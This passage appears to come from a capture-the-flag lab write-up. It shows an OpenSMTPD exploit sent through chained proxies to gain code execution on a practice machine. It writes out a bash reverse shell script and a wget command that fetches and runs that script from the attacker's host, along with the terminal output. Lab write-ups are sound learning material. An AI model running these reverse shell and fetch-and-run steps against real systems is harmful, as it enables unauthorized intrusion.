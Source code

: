 #### Script

To save myself the trouble of typing all that, I’ll grab the [exploit](https://www.exploit-db.com/download/47984) and replace `root` with `j.nakazawa@realcorp.htb`. It runs:

```

oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'ping -c 1 10.10.14.7'
\[proxychains] config file found: proxy-squid-x3.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

```

And produces the same result:

```

17:51:41.139562 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 31, seq 1, length 64
17:51:41.139584 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 31, seq 1, length 64

```

### Shell

After futzing with different reverse shells for a while, I went back to just requesting a shell and then passing it to Bash. `curl` didn’t reach back to my host, but `wget` did. I wrote a simple `shell.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.7/443 0>&1

```

I’ll start a Python web server and `nc` on 443. Now `wget` will get it and save it in `/dev/shm`, and then run it:

```

oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'wget 10.10.14.7/shell.sh -O /dev/shm/.0xdf.sh; bash /dev/shm/.0xdf.sh'
[proxychains] config file found: proxy-squid-x3.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done

```
